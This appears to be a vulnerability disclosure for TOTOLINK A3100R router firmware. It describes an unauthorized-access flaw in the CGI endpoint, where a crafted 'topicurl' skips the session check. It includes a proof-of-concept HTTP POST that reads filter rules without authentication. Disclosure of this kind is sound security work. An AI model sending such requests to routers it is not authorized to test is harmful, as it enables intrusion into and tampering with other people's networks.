


# unauthorized access

## A3100R_Firmware	 
version:V4.1.2cu.5050_B20200504，V4.1.2cu.5247_B20211129

## Description:

TOTOLINK use sessoin to control web access,but we can bypass the limit by constructe topic url. Router information can be get and set by unauthorized user.

## Source:
you may download it from : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html


## Analyse:
normal request through webpage like follows


after we delete session ,we can still get the information.


## POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 47


{"topicurl":"setting/getIpPortFilterRules"}
```
